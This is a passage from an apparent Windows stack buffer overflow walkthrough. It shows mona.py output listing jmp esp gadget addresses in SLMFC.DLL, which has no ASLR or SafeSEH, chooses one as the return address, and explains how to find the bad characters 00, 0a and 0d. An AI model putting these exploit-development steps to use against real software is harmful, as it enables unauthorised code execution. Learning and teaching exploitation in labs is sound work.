 ```
5F4C067B     0x5f4c067b : "\xFF\xE4" | ascii {PAGE_READONLY} [SLMFC.DLL] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v6.00.8063.0 (C:\WINDOWS\system32\SLMFC.DLL)
5F4C078B     0x5f4c078b : "\xFF\xE4" |  {PAGE_READONLY} [SLMFC.DLL] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v6.00.8063.0 (C:\WINDOWS\system32\SLMFC.DLL)
5F4C0EA3     0x5f4c0ea3 : "\xFF\xE4" |  {PAGE_READONLY} [SLMFC.DLL] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v6.00.8063.0 (C:\WINDOWS\system32\SLMFC.DLL)
5F4C14FB     0x5f4c14fb : "\xFF\xE4" |  {PAGE_READONLY} [SLMFC.DLL] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v6.00.8063.0 (C:\WINDOWS\system32\SLMFC.DLL)
5F4C2D63     0x5f4c2d63 : "\xFF\xE4" | asciiprint,ascii {PAGE_READONLY} [SLMFC.DLL] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v6.00.8063.0 (C:\WINDOWS\system32\SLMFC.DLL)
5F4C4D13     0x5f4c4d13 : "\xFF\xE4" | ascii {PAGE_READONLY} [SLMFC.DLL] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v6.00.8063.0 (C:\WINDOWS\system32\SLMFC.DLL)
0BADF00D       Found a total of 19 pointers
0BADF00D
0BADF00D   [+] This mona.py action took 0:00:01.297000
```
The top result is a good candidate: `0x5f4a358f`.

### 3. Find bad characters
Send an array of bad characters over as input after the overflowing string, and see how much of the extra input makes it in.
1. Send byte string
2. Follow ESP in dump, see where the string stops
3. Note the offending byte, remove it from the set and continue.

In this case, the bad bytes are: `00`, `0a` and `0d`. Note that `00` and `0a` completely terminate the string, whereas `0d` is simply ignored, so it's a harder one to catch - see the below screenshot.

![UI Screenshot](img/03.png)  
